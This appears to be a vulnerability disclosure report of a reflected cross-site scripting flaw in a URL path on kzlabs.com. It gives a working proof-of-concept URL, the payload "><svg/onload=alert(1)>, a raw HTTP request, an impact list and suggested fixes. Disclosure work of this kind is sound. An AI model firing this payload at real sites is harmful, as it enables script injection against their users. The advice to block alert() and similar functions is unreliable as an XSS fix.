

## Title
Reflected Cross-Site Scripting (XSS) in URL Path

## Summary
I identified a reflected Cross-Site Scripting (XSS) vulnerability in the URL path of the following endpoint:

## Vulnerable Endpoint
https://kzlabs.com/58.php/account/

The application reflects user-controlled input from the URL path into the page without proper sanitisation or output encoding, allowing arbitrary JavaScript execution in the victim's browser.

## Steps to Reproduce

1. Open the following URL in a browser:
https://kzlabs.com/58.php/account/%22%3E%3Csvg/onload=alert(1)%3E/messages

2. Observe that a JavaScript alert pop-up appears immediately.
3. This confirms that arbitrary JavaScript supplied through the URL path is executed in the browser.


## Payload Used
`"><svg/onload=alert(1)>`

# Proof of Concept
This confirms that user-controlled input is rendered without proper sanitization or output encoding.


## Screenshot 1 — Successful execution of the injected XSS payload




```http
GET /58.php/account/"><svg/onload=alert(1)>/messages HTTP/1.1
Host: kzlabs.com
```

## Impact

- An attacker can execute arbitrary JavaScript in the victim's browser.
- Attackers may steal sensitive user information or session data.
- Malicious scripts can be used to redirect users to phishing pages.
- An attacker may perform actions on behalf of authenticated users.
- This issue could affect other users if a crafted malicious link is shared.

## Recommendations for Fix

1. Sanitize all user-controlled input before rendering it in the response.
2. Escape special characters such as:
   `<`, `>`, `"`, `'`, `&`
3. Avoid reflecting unsanitized input directly into HTML or JavaScript contexts.
4. Block dangerous JavaScript functions such as:
   - `alert()`
   - `confirm()`
   - `prompt()`
5. If using PHP, use secure functions such as:
php,htmlspecialchars($input, ENT_QUOTES, 'UTF-8');

